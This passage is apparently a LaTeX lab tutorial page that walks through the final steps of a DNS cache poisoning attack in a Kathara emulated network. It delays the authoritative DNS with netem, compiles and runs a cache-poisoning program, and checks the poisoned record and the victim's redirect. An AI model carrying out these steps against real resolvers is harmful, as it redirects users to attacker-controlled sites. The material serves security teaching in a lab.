 \documentclass[11pt,a4paper]{article}
\begin{document}
\newpage
\subsection{Final Steps}
\noindent
Before compiling and running the attack, however, there is one important step missing. We want to be sure to win the race condition against the real authoritative DNS. That's why we will cheat a little bit, by adding a delay to it:
\begin{lstlisting}
 <@\textcolor{codegray}{:>}@> kathara connect authoritative_dns  <@\textcolor{codegreen}{\# Connect to the authoritative DNS}@>
 <@\textcolor{codegray}{authoritative-dns :>}@> tc qdisc add dev eth0 root netem delay 1500ms    <@\textcolor{codegreen}{\# Add delay}@>
\end{lstlisting}
\noindent
Now that the probability of success has increased a lot, we can compile and run the attack:
\begin{lstlisting}
 <@\textcolor{codegray}{:>}@> kathara connect attacker  <@\textcolor{codegreen}{\# Connect to the attacker's machine}@>
 <@\textcolor{codegray}{attacker :>}@> g++ -o cache-poisoning /shared/cache-poisoning.cpp -ltins    <@\textcolor{codegreen}{\# Compile}@>
 <@\textcolor{codegray}{attacker :>}@> ./cache-poisoning    <@\textcolor{codegreen}{\# Run}@>
\end{lstlisting}

\noindent
Since we are guessing the Query ID, the probability of success is clearly not 100\%. To verify whether the attack was successful or not there are two main ways:
\begin{enumerate}
    \item check the cache of the recursive DNS. You should see an A record for \texttt{foo.example.com} mapped to \texttt{1.1.1.3}.
    \begin{lstlisting}
     <@\textcolor{codegray}{:>}@> kathara connect rec_dns  <@\textcolor{codegreen}{\# Connect to the recursive DNS}@>
     <@\textcolor{codegray}{dns :>}@> rndc dumpdb -cache && grep "example.com" /var/cache/bind/dump.db     
     
     [...]
     foo.<@\textcolor{red}{example.com}@>.  259172  A   1.1.1.3
     [...]\end{lstlisting}
     \item check the effect on the victim's side by using \textit{links}, a simple console browser:
     \begin{lstlisting}
     <@\textcolor{codegray}{:>}@> kathara connect victim  <@\textcolor{codegreen}{\# Connect to the victim's machine}@>
     <@\textcolor{codegray}{victim :>}@> links    <@\textcolor{codegreen}{\# Launch the browser}@>\end{lstlisting}
     Type \textbf{'g'} and search \texttt{'http://foo.example.com'}. You should be redirected to the attacker's website, as can be seen in Figure \ref{fig:attacker-website}.
\end{enumerate}
\end{document}
